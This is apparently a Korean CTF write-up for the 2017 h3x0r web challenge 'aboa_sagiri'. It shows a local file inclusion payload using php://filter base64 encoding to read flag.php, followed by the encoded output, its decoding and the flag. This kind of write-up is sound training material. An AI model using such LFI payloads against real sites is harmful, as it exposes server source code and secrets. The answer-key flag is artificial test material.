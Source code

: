======================================================
[2017_h3x0r] [WEB] aboa_sagiri
======================================================

문제 내용
======================================================

http://garbage.dothome.co.kr/chall.php


문제 풀이
======================================================

해당 사이트에 접속해보면 친절하게 LFI라고 말해주고 있다. LFI를 통해 flag.php를 읽어보자.

.. code-block:: html

    http://garbage.dothome.co.kr/chall.php?file=php://filter/convert.base64-encode/resource=flag.php
    PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK

base64 코드를 확인할 수 있고, 해당 코드를 디코드하면 플래그를 획득할 수 있다.

.. code-block:: console

    $ echo "PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK"|base64 -D
    <?php
        echo "Use LFI!";
        $flag = "H3X0R{a0ba_c0te_adm1t?}";
